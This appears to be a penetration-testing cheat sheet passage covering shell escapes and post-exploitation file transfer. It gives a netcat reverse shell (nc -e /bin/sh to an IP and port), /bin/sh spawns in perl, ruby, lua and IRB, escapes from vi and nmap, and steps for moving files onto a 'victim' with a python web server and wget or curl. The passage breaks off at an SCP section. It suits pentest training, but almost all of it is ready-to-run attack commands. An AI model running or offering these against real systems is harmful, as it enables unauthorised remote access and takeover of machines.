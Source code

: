 ``` nc -e /bin/sh [IPADDR] [PORT] ```
   ``` perl —e 'exec "/bin/sh";' ```
   
   ``` perl: exec "/bin/sh"; ```
   
 ``` ruby: exec "/bin/sh" ```
    

  ``` lua: os.execute('/bin/sh') ```

   ``` (From within IRB) ```

   ``` exec "/bin/sh" ```

   ``` (From within vi) ```

   ``` :!bash ```

   ``` (From within vi) ```

   ``` :set shell=/bin/bash:shell ```

  ```   (From within nmap) !sh ```


********************

## 3) File Transfer In Windows and Linux


[File Transfer Cheatsheet](https://ironhackers.es/en/cheatsheet/transferir-archivos-post-explotacion-cheatsheet/)

[Kali to windows](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)

 - Linux
    - Upload files to the victim

        - Simple HTTP Server

With this method we will host our file to upload with a simple python server, which could also be hosted by any other server but we will use this for its simplicity, and then download it with wget in the victim (or curl if it is not installed).



     -   Attacking machine command:
       	
  ```  python -m SimpleHTTPServer 80 ```
  

     -   Victim machine command:
        
        	
   ``` wget http://192.168.1.35/FiletoTransfer ```

or 
        	
   ```     curl -o FiletoTransfer http://192.168.1.35/FiletoTransfer ```

      -  SCP(SSH utility)

        This method will only be valid if the target machine has ssh and we have the credentials.
        We will use the scp utility to transfer the file



```